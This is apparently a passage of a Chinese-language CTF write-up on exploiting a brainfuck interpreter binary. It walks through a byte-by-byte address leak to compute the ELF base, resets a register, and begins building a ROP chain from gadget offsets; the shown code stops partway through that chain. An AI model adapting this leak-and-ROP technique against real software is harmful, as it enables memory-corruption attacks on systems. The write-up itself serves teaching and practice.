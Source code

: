 调试发现`rcx`附近有几个特别的地址，它们末尾几位总是`430`，相对于`elf_base`是固定的且`offset=0x10430`，就可以借助`brainfuck`中`.`逐字节泄露:  

```py
payload2 += b'[>.,],'
# previous_exploit
for i in range(7):
	sn(b'a')
	rn(1)
for i in range(11):
	leak_addr = b''
	for i in range(8):
		sn(b'a')
		leak_addr += rn(1)
	leak_addr = uu64(leak_addr)
	lg("leak_addr")
lg("leak_addr")
elf_base = leak_addr - 0x10430
```

这样就可以通过偏移来构造`ROP`了.

--------

但是刚刚泄露时循环`>`修改了`rbx`，因此通过`b'[<,],'`将`rbx`归零:   

```py
payload2 += b'[<,],'
# previous_exploit
sn(b'\x00')
for i in range(0x5f):
	sn(b'a')
sn(b'\x00')
```

--------

### ROP

进一步调试，发现程序最后`ret_addr`距离`rcx`还有一段偏移，因此考虑再最初多`pop`几次`rax`:  

```py
# previous
for i in range((0x7ffe79705030-0x7ffe79704e90) // 8):
	sn(b'a')
```

--------

接下来就是`ROP`利用了:  

```py
def ROP(base):
	pop_rdi_ret = 0x711d + base
	mov_rdx_rdi_ret = 0x103F2 + base
	pop_rsi_ret = 0x7285 + base
	pop_rax_ret = 0x10143 + base
	syscall = 0x10847 + base
	buffer = 0x62078 + base
	or_rax_rcx_ret = 0x41a73 + base
	magic1 = 0x40512 + base
	magic2 = 0x404ba + base
	payload = p64(0) # pop rbx
	payload += p64(pop_rax_ret) + p64(0) # ret
	payload += p64(or_rax_rcx_ret)
	payload += p64(pop_rsi_ret) + p64(0xC0)
	payload += p64(pop_rdi_ret) + p64(buffer - 0x18)
	payload += p64(magic1) # [buffer] = rcx + 0xC0

	payload += p64(pop_rdi_ret) + p64(0)
```